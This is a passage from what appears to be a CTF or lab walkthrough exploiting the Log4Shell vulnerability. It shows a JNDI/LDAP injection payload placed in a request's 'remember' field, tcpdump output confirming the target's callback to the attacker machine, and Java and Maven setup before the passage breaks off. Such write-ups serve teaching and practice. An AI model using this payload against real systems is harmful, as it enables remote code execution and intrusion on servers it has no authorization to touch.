 In Burp we need to insert our payload into the `remember` field in the request.

Payload: `"${jndi:ldap://10.10.14.15/whatever}"`

![](./attachments/Pasted%20image%2020220415111234.png)

In tcpdump we can now see that we receive a connection from the server, this confirms that we can make it execute commands.

```console
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
05:37:11.888625 IP 10.129.28.168.42178 > 10.10.14.15.ldap: Flags [S], seq 3210065072, win 64240, options [mss 1285,sackOK,TS val 1658415904 ecr 0,nop,wscale 7], length 0
05:37:11.888642 IP 10.10.14.15.ldap > 10.129.28.168.42178: Flags [R.], seq 0, ack 3210065073, win 0, length 0
```

We need three things in order to make this exploit work, first [[Java]] and [[Maven]].

```console 
┌──(kali㉿kali)-[~]
└─$ sudo apt install openjdk-11-jdk -y

(...)

┌──(kali㉿kali)-[~]
└─$ java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk version "11.0.14.1" 2022-02-08
OpenJDK Runtime Environment (build 11.0.14.1+1-post-Debian-1)
OpenJDK 64-Bit Server VM (build 11.0.14.1+1-post-Debian-1, mixed mode, sharing)

┌──(kali㉿kali)-[~]
└─$ sudo apt install maven -y

```